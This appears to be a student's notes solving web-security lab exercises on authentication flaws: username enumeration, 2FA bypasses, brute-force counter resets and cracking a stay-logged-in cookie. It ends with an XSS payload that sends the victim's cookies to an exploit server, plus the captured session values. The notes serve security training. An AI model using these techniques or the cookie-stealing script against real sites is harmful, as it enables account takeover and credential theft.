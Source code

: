 ____

# Username enumeration via different responses

![[Pasted image 20240819055145.png]]

# 2FA simple bypass

```
Just try to access the next endpoint directly 

/my-account?id=carlos
```

# Password reset broken logic

```
Change username in POST request after password-reset link
```

![[Pasted image 20240819060645.png]]

# Username enumeration via subtly different responses

Grep extract

![[Pasted image 20240819074802.png]]

# Username enumeration via response timing

![[Pasted image 20240820125651.png]]

![[Pasted image 20240820125617.png]]

# Broken brute-force protection, IP block

You can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached. For example create a combined list with your valid credentials and with victim's creds

```
wiener - peter
carlos - kek
carlos - kek2
wiener - peter
carlos - kek3 etc...
```

![[Pasted image 20240821042000.png]]

# Username enumeration via account lock

It blocks only existing accounts, so try to brute the same list of passwords until one of accounts from the list is not blocked.
To brute password use grep with errors to find a request without error

![[Pasted image 20240821043248.png]]

![[Pasted image 20240821043325.png]]

# 2FA broken logic

```
Observe there is verify=wiener in cookie while sending 2FA code
Change it to our victim's nickname and simply brute 2FA code
```


# Brute-forcing a stay-logged-in cookie

Decoded Stay logged in from base64

wiener:51dc30ddc473d43a6011e9ebba6ca770

51dc30ddc473d43a6011e9ebba6ca770 --> md5 --> peter

![[Pasted image 20240829123137.png]]

# Offline password cracking

XSS
```html
<script>document.location='//exploit-0ae1001a041d54ab8236324601b70073/'+document.cookie</script>
```

/secret=T88cI38wn5zNcV3RIgyxp6qZayCMm1FG;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

